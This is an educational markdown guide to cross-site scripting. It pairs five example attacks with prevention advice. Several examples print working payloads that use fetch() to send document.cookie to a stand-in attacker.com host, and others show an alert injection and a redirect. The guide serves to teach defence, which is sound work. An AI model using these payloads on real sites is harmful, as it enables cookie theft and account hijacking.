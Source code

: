 # XSS Practical Guide and Reference
**Disclaimer:** This document is intended for educational purposes only. The examples provided are to illustrate potential vulnerabilities and preventive measures related to Cross-Site Scripting (XSS). It is crucial to use this information responsibly and adhere to ethical guidelines. Unauthorized access to systems, networks, or any form of malicious activity is strictly prohibited. The authors and contributors of this document are not responsible for any misuse of the information herein.

## Table of Contents:

1. [Introduction](#introduction)
2. [Levels of Difficulty](#levels-of-difficulty)

   a. [Basic Level](#basic-level-standard-script-injection)

   b. [Intermediate Level](#intermediate-level-obfuscation-techniques)
   
   c. [Advanced Level](#advanced-level-dom-based-xss)
   
   d. [Expert Level](#expert-level-data-interception-and-bypass-techniques)
   
   e. [Creative Level](#creative-level-space-modification-techniques)

3. [Examples](#examples)

---

## Introduction:
Cross-Site Scripting (XSS) is a web security vulnerability that allows attackers to inject malicious scripts into web pages. Understanding and preventing XSS is crucial for secure web development.

## Levels of Difficulty:

| Level            | Attacker's Approach                                  | Developer's Defense                                  |
|------------------|------------------------------------------------------|------------------------------------------------------|
| **Basic Level**  | Injecting a simple script into an input field.        | Basic input validation and output encoding.          |
| **Intermediate Level** | Employing obfuscation techniques.               | Advanced input validation and context-aware encoding. |
| **Advanced Level**     | Manipulating the Document Object Model (DOM).   | Client-side security mechanisms and code reviews.      |
| **Expert Level**       | Intercepting data flows and bypassing controls. | Comprehensive Content Security Policies (CSP).        |
| **Creative Level**     | Modifying spaces within injected code.          | Strict input validation for whitespace characters.  |

## Examples:

### 1. Stored XSS in a Blog Comment Section

**Vulnerability:**
- A blog allows users to submit comments without proper input validation.
- An attacker submits a comment containing the following payload:

    ```html
    <script>
        fetch("https://attacker.com/steal?cookie=" + document.cookie);
    </script>
    ```

**Exploitation:**
- The script steals the user's cookie and sends it to the attacker's domain.

**Prevention:**
- Implement input validation on the server-side to filter and sanitize user comments.
- Encode user-generated content before rendering it on the page.

### 2. Reflected XSS via URL Parameter

**Vulnerability:**
- A search functionality reflects user input directly in the search results.
- An attacker crafts a malicious URL:

    ```
    https://vulnerable-site.com/search?query=<script>alert("XSS");</script>
    ```

**Exploitation:**
- Users clicking on the manipulated link trigger the script, leading to an alert.

**Prevention:**
- Validate and sanitize input parameters on the server.
- Use output encoding when rendering user inputs in HTML.

### 3. DOM-based XSS in a Single Page Application (SPA)

**Vulnerability:**
- An SPA dynamically updates the page based on URL fragments without proper validation.
- An attacker crafts a URL:

    ```
    https://vulnerable-spa.com/#/profile/<img src=x onerror=fetch("https://attacker.com/steal?cookie=" + document.cookie)>
    ```

**Exploitation:**
- The script in the URL is executed, stealing the user's cookie.

**Prevention:**
- Implement proper input validation and sanitization in client-side code.
- Use frameworks that automatically handle input encoding.

### 4. Cookie Theft via Malicious Image Tag

**Vulnerability:**
- An image upload functionality on a social media site does not validate the content type.
- An attacker uploads an image with the following content:

    ```html
    <img src=x onerror=fetch("https://attacker.com/steal?cookie=" + document.cookie)>
    ```

**Exploitation:**
- When users view the attacker's profile, the image tag triggers the script, stealing their cookies.

**Prevention:**
- Validate file types and content on the server when processing uploads.
- Set proper Content Security Policies (CSP) to restrict allowed sources for images.

### 5. Redirecting with `window.location`

**Vulnerability:**
- An input field or URL parameter is not properly validated, allowing an attacker to inject the following payload:

    ```html
    <script>
        window.location = 'https://attacker.com';
    </script>
    ```

**Exploitation:**
- The script redirects the user's browser to the specified malicious site.

**Prevention:**
- Implement strict input validation for input fields and URL parameters.
- Use output encoding to neutralize script tags.


